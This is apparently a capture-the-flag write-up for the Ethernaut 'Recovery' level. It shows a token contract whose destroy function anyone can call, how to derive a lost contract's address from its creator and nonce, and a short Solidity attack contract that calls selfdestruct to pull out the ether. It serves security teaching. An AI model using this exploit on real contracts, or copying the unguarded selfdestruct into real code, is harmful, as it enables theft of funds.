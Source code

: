 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel17.svg">


# Target Contract Review

Given contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

Challenge's message:

> A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address. This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.


## Contract Address Calculating


```solidity
bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x01)));
address addr = address(uint160(uint256(hash)));
```

More about [this topic.](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)

# Subverting

```solidity
pragma solidity ^0.8.20;

import './Recovery.sol';

contract Attack{

    SimpleToken target;
    address public addr;

    constructor(address payable _challenge){
        bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _challenge, bytes1(0x01)));
        addr = address(uint160(uint256(hash)));
        target = SimpleToken(addr);
    }

    function attack()external{
        target.destroy(payable(msg.sender));
    }

}
```


<p align="center"><img src=""></p>

<p align="center"><img src=""></p>


Ethernaut's message:

> Contract addresses are deterministic and are calculated by keccak256(address, nonce) where the address is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions). Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.


**_by wasny0ps_**
